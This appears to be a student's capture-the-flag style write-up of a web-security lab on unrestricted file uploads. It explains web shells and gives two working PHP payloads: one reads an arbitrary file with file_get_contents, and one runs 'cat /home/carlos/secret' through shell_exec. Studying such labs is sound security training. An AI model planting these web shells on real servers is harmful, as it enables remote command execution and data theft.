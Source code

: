 ## Exploiting unrestricted file uploads to deploy a web shell

From a security perspective, the worst possible scenario is when a website allows you to upload server-side scripts, such as PHP, Java, or Python files, and is also configured to execute them as code. This makes it trivial to create your own web shell on the server.

> A web shell is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint.

If you're able to successfully upload a web shell, you effectively have full control over the server. This means you can read and write arbitrary files, exfiltrate sensitive data, even use the server to pivot attacks against both internal infrastructure and other servers outside the network. For example, the following PHP one-liner could be used to read arbitrary files from the server's filesystem:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

Once uploaded, sending a request for this malicious file will return the target file's contents in the response.

## Challenge

> In this challenge we just have to upload a webshell to read the flag from `/home/carlos/secret`

--> So i made this payload :

```php
<?php echo shell_exec('cat /home/carlos/secret'); ?>
```

--> After successful upload right click on the image and select `copy image path` and paste in url and you will find the flag!

![](Attachments/Pastedimage20220124122314.png)
